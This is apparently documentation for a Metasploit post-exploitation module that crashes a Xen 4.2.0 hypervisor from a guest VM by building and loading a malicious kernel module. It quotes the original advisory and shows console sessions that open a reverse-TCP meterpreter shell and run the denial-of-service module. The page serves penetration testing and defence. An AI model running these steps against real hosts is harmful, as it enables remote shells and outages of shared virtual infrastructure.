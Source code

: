 This is a post exploitation module that exploits a memory corruption bug in Xen
4.2.0, causing a denial-of-service against the hypervisor from a guest VM. From
the original advisory:

> Downgrading the grant table version of a guest involves freeing its
status pages. This freeing was incomplete - the page(s) are freed back
to the allocator, but not removed from the domain's tracking
list. This would cause list corruption, eventually leading to a
hypervisor crash.

## Mechanism

This module aims to be portable by building the exploit module on the target
machine directly, building a malicious Linux Kernel Module (LKM) and inserting it
into the kernel of the paravirtualized host. It is necessary to build the
kernel module on the fly, since kernel ABIs are notoriously unstable and
unlikely to work between multiple kernel versions.

This module is tested on Debian and Ubuntu hosts running various versions of
Xen. Because the LKM is built at exploit-time, it requires that build tools and
kernel headers for the currently-running kernel to exist on the target machine.

## Scenarios

Failure (bad Xen version):

```
msf > use exploit/multi/handler
msf exploit(handler) > set payload linux/x86/meterpreter/reverse_tcp
payload => linux/x86/meterpreter/reverse_tcp
msf exploit(handler) > set lhost 192.168.1.1
lhost => 192.168.1.1
msf exploit(handler) > run

[*] Started reverse TCP handler on 192.168.1.1:4444
[*] Starting the payload handler...
[*] Transmitting intermediate stager for over-sized stage...(105 bytes)
[*] Sending stage (1495599 bytes) to 192.168.1.1
[*] Meterpreter session 1 opened (192.168.1.1:4444 -> 192.168.1.2:43488) at 2016-07-13 00:27:31 -0500

meterpreter >
meterpreter > background
[*] Backgrounding session 1...
msf exploit(handler) > use post/linux/dos/xen_420_dos
msf post(xen_420_dos) > set session -1
session => -1
msf post(xen_420_dos) > run

[*] Detecting requirements...
[+] Detected root privilege
[+] Detected build-essential
[+] Detected Xen
[+] Detected running Xen
[*] Xen Version: 4.6.0
[-] Sorry, wrong Xen Version
[*] Post module execution completed
```

Success:

```
msf post(xen_420_dos) > run

[*] Detecting requirements...
[+] Detected root privilege
[+] Detected build-essential
[+] Detected Xen
[+] Detected running Xen
[*] Xen Version: 4.2.0
[-] Detected correct Xen version
[*] DoS was successful!
[*] Post module execution completed
[*] 192.168.1.2 - Command shell session 1 closed.  Reason: Died from EOFError
```

## Future Work

A kernel module compilation mixin that works like the Dynamic Kernel Module
Support (DKMS) framework, would be useful in order to allow other kernel-level
exploits to be built as-needed. Supporting this using the Metasploit Post
Exploitation API and supporting more Linux distributions would make similar
exploits easier to build.
